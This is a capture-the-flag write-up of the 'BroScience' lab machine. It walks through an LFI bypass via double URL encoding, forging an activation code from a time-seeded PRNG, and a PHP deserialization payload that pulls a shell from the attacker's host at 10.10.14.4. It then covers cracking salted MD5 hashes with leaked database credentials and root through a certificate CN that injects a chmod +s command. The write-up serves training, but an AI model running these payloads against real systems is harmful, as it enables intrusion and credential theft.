## RUSTSCAN
`PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 df17c6bab18222d91db5ebff5d3d2cb7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDB5dEat1MGh3CDDnkl4tdWQcTpdWZYHZj5/Orv3PDjSiQ4dg1i35kknwiZrXLiMsUu/4TigP9Kc3h4M1CS7E3/GprpWxuGmipEucoQuNEtaM0sUa8xobtFxOVF46kS0++ozTd4+zbSLsu73SlLcSuSFalhGnHteHj6/ksSeX642103SMqkkmEu/cbgofkoqQOCYk3Qa42bZq5bjS/auGAlPoAxTjjVtpHnXOKOU7M6gkewD91FB3GAMUdwqR/PJcA5xqGFZm2St9ecSbewCur6pLN5YKnNhvdID4ijWI22gu5pLxHL9XjORMbSUkJbB79VoYJZaNkdOgt+HXR67s9DWI47D6/+pO0dTfQgMFgOCxYheWMDQ2FuyHyGX1CZpMVLAo3sjOvxAqk7eUGutsyBAlYCD4lhSFs6RhSBynahHQah7+Lv5LKRriZe/fQIgrJrQj+tR4Uhz89eWGrXK9bjN22wy7tVkMG/w5dOwo7S3Wi0aTZfd/17D0z7wSdiAiE=
|   256 3f8a56f8958faeafe3ae7eb880f679d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCgM9UKdxFmXRJESXdlb+BSl+K1F0YCkOjSa8l+tgD6Y3mslSfrawZkdfq8NKLZlmOe8uf1ykgXjLWVDQ9NrJBk=
|   256 3c6575274ae2ef9391374cfdd9d46341 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOMwR+IfRojCwiMuM3tZvdD5JCD2MRVum9frUha60bkN
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.54
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods: a
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://broscience.htb/
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=broscience.htb/organizationName=BroScience/countryName=AT/localityName=Vienna/emailAddress=administrator@broscience.htb
| Issuer: commonName=broscience.htb/organizationName=BroScience/countryName=AT/localityName=Vienna/emailAddress=administrator@broscience.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-14T19:48:36
| Not valid after:  2023-07-14T19:48:36
| MD5:   5328ddd62f3429d11d26ae8a68d86e0c
| SHA-1: 20568d0d9e4109cde5a22021fe3f349c40d8d75b
`
* * *
## HTTP/S
Loggin into the webpage url is rewrited to https://broscience.htb so we can assume that http is not used so far.

Seems like we have no special subdomains so far:

Running WFUZZ shows us 2 more subdomains that seems are not leading us nowhere:


Dirsearch show us this:


Surfing the website, going to the Login page we can create our account to login into the portal:


But a mail have been sent for activation and actually we can't login until that..
Going back and checking what get loaded during a refresh i see that there is a img.php that loads jpg files, wondering if we can get a LFI throught that:


Now going back to burp we can get the list of all users:
 

Now we know for sure that this can be exploited as LFI:


Now I almost missed but we could surf and list files under /includes (we got HTTP 200 from Dirsearch):


About those files seems like db_connect.php seems promising, so now we know that our img.php and db_connect.php are inside same folder and when img.php loads a picture it only needs filename.php and this means that php should have coded /images path.

We can't read db_connect.php directly as img.php?path=db_connect.php


The solution is to go back one folder and then go back to db_connect.php, something like this img.php?path=../includes/db_connect.php

We have credentials to a DB (Postgre judging by port) but we know is not open from outside.

For curiosity we can do same and read img.php itself with same technique:


We can see how LFI protection was in place blocking bad words like ssh, ../ , etc
And how pictures are poiting to images.
And how we could bypass LFI by using double URL encoding since, it was decoded ony 1x time by script.

Doing same we could fetch code from utils.php:
`
HTTP/1.1 200 OK
Date: Tue, 24 Jan 2023 09:35:57 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 3060
Connection: close
Content-Type: image/png

<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

// Source: https://stackoverflow.com/a/4420773 (Slightly adapted)
function rel_time($from, $to = null) {
    $to = (($to === null) ? (time()) : ($to));
    $to = ((is_int($to)) ? ($to) : (strtotime($to)));
    $from = ((is_int($from)) ? ($from) : (strtotime($from)));

    $units = array
    (
        "year"   => 29030400, // seconds in a year   (12 months)
        "month"  => 2419200,  // seconds in a month  (4 weeks)
        "week"   => 604800,   // seconds in a week   (7 days)
        "day"    => 86400,    // seconds in a day    (24 hours)
        "hour"   => 3600,     // seconds in an hour  (60 minutes)
        "minute" => 60,       // seconds in a minute (60 seconds)
        "second" => 1         // 1 second
    );

    $diff = abs($from - $to);

    if ($diff < 1) {
        return "Just now";
    }

    $suffix = (($from > $to) ? ("from now") : ("ago"));

    $unitCount = 0;
    $output = "";

    foreach($units as $unit => $mult)
        if($diff >= $mult && $unitCount < 1) {
            $unitCount += 1;
            // $and = (($mult != 1) ? ("") : ("and "));
            $and = "";
            $output .= ", ".$and.intval($diff / $mult)." ".$unit.((intval($diff / $mult) == 1) ? ("") : ("s"));
            $diff -= intval($diff / $mult) * $mult;
        }

    $output .= " ".$suffix;
    $output = substr($output, strlen(", "));

    return $output;
}

class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

function get_theme_class($theme = null) {
    if (!isset($theme)) {
        $theme = get_theme();
    }
    if (strcmp($theme, "light")) {
        return "uk-light";
    } else {
        return "uk-dark";
    }
}

function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?> 
`

Running another webdirectories fuzzing, this time specific on php files we find another file called activation.php:


And we can grab it's code same with LFI:
`
HTTP/1.1 200 OK
Date: Tue, 24 Jan 2023 11:22:25 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 2026
Connection: close
Content-Type: image/png

<?php
session_start();

// Check if user is logged in already
if (isset($_SESSION['id'])) {
    header('Location: /index.php');
}

if (isset($_GET['code'])) {
    // Check if code is formatted correctly (regex)
    if (preg_match('/^[A-z0-9]{32}$/', $_GET['code'])) {
        // Check for code in database
        include_once 'includes/db_connect.php';

        $res = pg_prepare($db_conn, "check_code_query", 'SELECT id, is_activated::int FROM users WHERE activation_code=$1');
        $res = pg_execute($db_conn, "check_code_query", array($_GET['code']));

        if (pg_num_rows($res) == 1) {
            // Check if account already activated
            $row = pg_fetch_row($res);
            if (!(bool)$row[1]) {
                // Activate account
                $res = pg_prepare($db_conn, "activate_account_query", 'UPDATE users SET is_activated=TRUE WHERE id=$1');
                $res = pg_execute($db_conn, "activate_account_query", array($row[0]));
                
                $alert = "Account activated!";
                $alert_type = "success";
            } else {
                $alert = 'Account already activated.';
            }
        } else {
            $alert = "Invalid activation code.";
        }
    } else {
        $alert = "Invalid activation code.";
    }
} else {
    $alert = "Missing activation code.";
}
?>

<html>
    <head>
        <title>BroScience : Activate account</title>
        <?php include_once 'includes/header.php'; ?>
    </head>
    <body>
        <?php include_once 'includes/navbar.php'; ?>
        

            <?php
            // Display any alerts
            if (isset($alert)) {
            ?>
                
">
                    
                    <?=$alert?>
                

            <?php
            }
            ?>
        

    </body>
</html>
`

We know what is the string to pass in order to activate user freshly created:


Now we need to exploit the php code to generate a random alfanumeric string with 32 chars... Now the solution is pretty easy, we know a random string is generated based on time of user creation which basically we can reuse the code from the script:
`
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
`

But we have to modify: `srand(time());` to `srand(strtotime("xxxx"));`
Where xxxx can be obtained by burpsuite(time of account creation):


Now the string can be componed:
`srand(strtotime("Tue, 24 Jan 2023 12:19:05 GMT"));`

The whole script will be:
`
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(strtotime("Tue, 24 Jan 2023 12:19:05 GMT"));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
`

Running on a php compiler online will give us a code based on exact user creation:


Now we can send the code and activate the account:



Now we can login and we see we got a new cookie called user-prefs (basically it passes the website theme configurations choosen from the user):


We know from utils that php serialize is used and result is base64 encoded.
`function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));`
		
We should be able to exploit this by copying again part of the code from utils.php and then adding poin to our http.server serving a php rce shell.

1. Setup a python http server
2. create a php file with a rce
3. setup a nc listeing on that site
4. Create the following script to generate a serialized payload:
`
<?php
	class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp="http://10.10.14.4:9000/shell.php";
    public $imgPath="./shell.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
echo base64_encode(serialize(new AvatarInterface()));
?>
` 

Info:https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/

Now we have a base64 encoded string to be assigned as cookie on the site, and it will assign the avatar by fetching our php with a remote rce..


Now we have uploaded the avatar to the site and we can move forward to invoke it. Edit: here i had do check for tips since no shells from Payloadallthethigs were working(suspect was from fsocket disabled in phpinfo) anyway this shell worked:


Surfing to https://broscience.htb/shell3.php invoked us a RCE:

* * *
## USER
So far we are www-data and user.txt is in Bill's home where we don't have access...
Now we remeber from db_connection.php we had some credentials for PostgreSQL, we may use them to dump hashes..


We must first stabilize our shell otherwise it will just hang on:


List of tables:


Dump the users from Broscience DB:


let's save hashesh and try to dump them, we are interested in Bill, since we know he have a bash shell.
Here i tried to crack the hashes both with JohnTheRipper and HashCat with rockyou.txt wordlist but other lists as well and didn't worked so we have to go back to config files and see how are account setup.

Most specifically from /register.php:
`
 if (pg_num_rows($res) == 0) {
                                    $res = pg_prepare($db_conn, "create_user_query", 'INSERT INTO users (username, password, email, activation_code) VALUES ($1, $2, $3, $4)');
                                    $res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));
`
We can see that when a user gets created, password is a MD5 hash of SALT+PASSWORD where SALT can be found in db_connect.php:
`<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>`

Knowing this we can use Hashscat and knowing is MD5 we can use this:


This means that all our hashes from DB need to be in this form: HASH:SALT = xxxxxx:NaCl

Doing so we can crack it with -mode 10:
`13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym`

Comparing hashes from SQL Dump we know is Bills password!
* * *
## USER
Now we can ssh as bill and grab our first flag:

* * *
## ROOT
Now doing a manual enumeration we know bill can't do any sudo... Let's upload Linpeas and let the old man do it's job!
`
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.9.5p2
╔══════════╣ CVEs Check
Potentially Vulnerable to CVE-2022-0847
Potentially Vulnerable to CVE-2022-2588
╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwxr-sr-x 1 root tty 23K Jan 20  2022 /usr/bin/write.ul (Unknown SGID binary)
`

So far the only file that seems promising is the last SGID file seems promising. When i checked forum for tips i remember people where saying to check system events so let's upload pspy and check what special processes can we see:


This also seems interesting. So far we can't edit file but we can only run it:


The source code:
`#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;`

Solutions is here:
https://gtfobins.github.io/gtfobins/openssl/#reverse-shell

Basically we want to create a new crt file with expiration time only one day so we can trigger the check for renew:
 `openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi 
`
Here basically checks that expiry date is atleast 86400sec=24hours
And then knowing that there is a scheduled task that run a check on file as root placed in /home/bill/Certs/broscience.htb
We can create that a new crt that have in CN: $(chmod +s usr/bin/bash) so we set the SUID on bash so we can elevate it.

`openssl req -x509 -newkey rsa:4096 -keyout /home/bill/Certs/broscience.pem -out /home/bill/Certs/broscience.pem -days 1 -nodes`
 

 
 Waiting for the script to take place:
 
 
 And now we can do this to get shell:
 https://gtfobins.github.io/gtfobins/bash/#suid
 
 Grab the last flag:
 

* * *